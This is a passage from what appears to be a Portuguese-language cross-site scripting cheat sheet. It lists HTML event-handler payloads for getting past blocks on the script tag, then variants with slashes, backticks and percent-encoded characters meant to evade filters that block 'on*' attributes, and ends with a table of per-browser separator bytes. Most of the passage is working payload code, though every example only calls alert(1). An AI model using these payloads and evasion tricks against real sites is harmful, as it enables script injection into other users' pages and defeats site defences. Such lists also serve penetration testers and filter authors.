 Nos dois últimos exemplos, pode-se usar no endereço essa ferramenta:

https://github.com/evilcos/xss.swf

**Bypass no bloqueio da tag \<script> usando eventos do HTML**

Normalmente o evento mais usado é o **onerror**:

```html
<img src=x onerror=alert(1)>
```

Mas existem vários outros eventos que podem ser usados, uma lista com eles se encontra no link:

http://help.dottoro.com/lhwfcplu.php

Alguns exemplos:

```html
// HTML 4
<body onload=alert(1)>
<input type=image src=x:x onerror=alert(1)>
<isindex onmouseover="alert(1)">
<form oninput=alert(1)><input></form>
<textarea autofocus onfocus=alert(1)>
<input oncut=alert(1)>

// HTML 5
<svg onload=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="alert(1)">
<marquee onstart=alert(1)>
```

É muito comum, do ponto de vista defensivo, bloquear eventos que comecem com on*, isso pode ser byppassado com:

```html
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
```

Algumas regras mais avançadas conseguem bloquear esses payloads, elas podem ser bypassadas com os seguintes exemplos:

```html
<svg onload%09=alert(1)> // Funciona em todos os browsers menos no Safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)> // IE somente
```

Uma lista de caracteres que podem ser usados entre o evento e o sinal de igual, ou antes do nome do evento:

```
IExplorer = [0x09,0x0B,0x0C,0x20,0x3B]
Chrome = [0x09,0x20,0x28,0x2C,0x3B]
Safari = [0x2C,0x3B]
FireFox = [0x09,0x20,0x28,0x2C,0x3B]
Opera = [0x09,0x20,0x2C,0x3B]
Android = [0x09,0x20,0x28,0x2C,0x3B]
```
